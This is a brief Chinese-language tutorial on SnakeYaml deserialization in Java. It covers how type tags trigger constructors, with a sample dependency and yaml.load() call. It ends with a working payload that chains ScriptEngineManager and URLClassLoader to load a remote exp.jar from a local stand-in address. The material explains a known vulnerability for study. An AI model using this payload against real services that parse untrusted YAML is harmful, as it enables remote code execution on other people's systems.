 SnakeYaml是java解析yaml格式的组件库，SnakeYaml反序列化漏洞不存在版本限制，前提是能控制反序列化数据流。


SnakeYaml反序列化漏洞，不同的数据类型稍有不同：
当数据为键值对时，会调用构造方法和setter方法。
当数据是数组时候会调用构造方法，其中一条攻击链就是利用SPI机制来加载恶意类



## **SnakeYaml使用​**
导入依赖，如果是springboot项目，自带此依赖。
```
<dependency>​
  <groupId>org.yaml</groupId>​
  <artifactId>snakeyaml</artifactId>​
  <version>1.27</version>​
</dependency>
```
```
inputStream = new FileInputStream(filepath);​
yaml = new Yaml();​
// 使用文件输入流读取YAML文件​
yamlMap = yaml.load(inputStream);
```

## **反序列化漏洞**
当数据是数组时候会调用构造方法，其中一条攻击链就是利用SPI机制来加载恶意类：
使用 !!+全类名指定反序列化的类，反序列化过程中会实例化该类。snakeyaml 将全类名解析，并将类使用forname()进行加载，然后通过反射获取构造器，调用构造方法，控制适当的类的构造方法就能进行漏洞攻击。
如
```
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:7788/exp.jar"]]]]
```